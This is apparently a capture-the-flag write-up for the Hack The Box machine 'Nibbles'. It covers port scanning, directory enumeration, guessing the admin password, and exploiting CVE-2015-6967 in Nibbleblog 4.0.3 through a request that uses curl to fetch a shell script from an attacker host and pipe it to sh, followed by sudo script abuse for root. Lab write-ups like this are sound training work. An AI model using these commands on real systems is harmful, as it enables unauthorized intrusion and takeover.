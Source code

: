 ## Machine Info

![image-20231201075220357](./Nibbles.assets/image-20231201075220357.png)

## Recon

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.8 (96%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- attack vector: 80 http

![image-20231201075948224](./Nibbles.assets/image-20231201075948224.png)

- Path enum: `$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -x php -s 200 -b '' -t 50`

![image-20231201080030307](./Nibbles.assets/image-20231201080030307.png)

![image-20231201080033372](./Nibbles.assets/image-20231201080033372.png)

- Version: **Nibbleblog 4.0.3**

## Foothold

### crack password

- username: admin

![image-20231201080130275](./Nibbles.assets/image-20231201080130275.png)

- admin:123456 [x]

- **admin:nibbles** [y]

### CVE-2015-6967

- searchsploit

![image-20231201080251169](./Nibbles.assets/image-20231201080251169.png)

- [0xConstant/CVE-2015-6967 (github.com)](https://github.com/0xConstant/CVE-2015-6967)

![image-20231201080302857](./Nibbles.assets/image-20231201080302857.png)

- `10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?rce=curl%20[http://10.10.14.15/q.sh%20|%20sh](http://10.10.14.15/q.sh | sh)`

- get a user shell

![image-20231201080326551](./Nibbles.assets/image-20231201080326551.png)

## Privilege Escalation

- nibbler priv

![image-20231201080343969](./Nibbles.assets/image-20231201080343969.png)

- sudo bash script

![image-20231201080400027](./Nibbles.assets/image-20231201080400027.png)

![image-20231201080406880](./Nibbles.assets/image-20231201080406880.png)

## Exploit Chain

dir enum -> file enum -> version check -> searchsploit, exp yes, no password -> brute force pass -> cve usage -> get a user shell -> sudo script altering -> get a root shell

